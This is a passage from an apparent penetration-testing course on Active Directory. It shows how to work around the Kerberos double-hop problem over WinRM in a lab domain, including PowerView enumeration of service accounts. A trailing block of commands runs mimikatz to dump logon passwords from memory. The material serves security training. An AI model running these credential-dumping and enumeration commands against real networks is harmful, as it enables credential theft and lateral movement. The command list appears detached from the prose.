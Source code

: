 We can now run tools such as PowerView without having to create a new PSCredential object.

```powershell
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname

samaccountname
--------------
azureconnect
backupjob
krbtgt
mssqlsvc
sqltest
sqlqa
sqldev
mssqladm
svc_sql
sqlprod
sapsso
sapvc
vmwarescvcs
```

{% hint style="info" %}
**Note:** We cannot use `Register-PSSessionConfiguration` from an evil-winrm shell because we won't be able to get the credentials popup. Furthermore, if we try to run this by first setting up a PSCredential object and then attempting to run the command by passing credentials like `-RunAsCredential $Cred`, we will get an error because we can only use `RunAs` from an elevated PowerShell terminal. Therefore, this method will not work via an evil-winrm session as it requires GUI access and a proper PowerShell console. Furthermore, in our testing, we could not get this method to work from PowerShell on a Parrot or Ubuntu attack host due to certain limitations on how PowerShell on Linux works with Kerberos credentials. This method is still highly effective if we are testing from a Windows attack host and have a set of credentials or compromise a host and can connect via RDP to use it as a "jump host" to mount further attacks against hosts in the environment.&#x20;
{% endhint %}

We can also use other methods such as CredSSP, port forwarding, or injecting into a process running in the context of a target user (sacrificial process) that we won't cover here.

***

## Wrap Up

In this section, we've seen how to overcome the Kerberos "Double Hop" problem when working with WinRM in an AD environment. We will encounter this often during our assessments, so we must understand the issue and have certain tactics in our toolbox to avoid losing time.

The following section will cover other ways to escalate privileges and move laterally in a domain once we have valid credentials using various critical vulnerabilities identified throughout 2021.


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist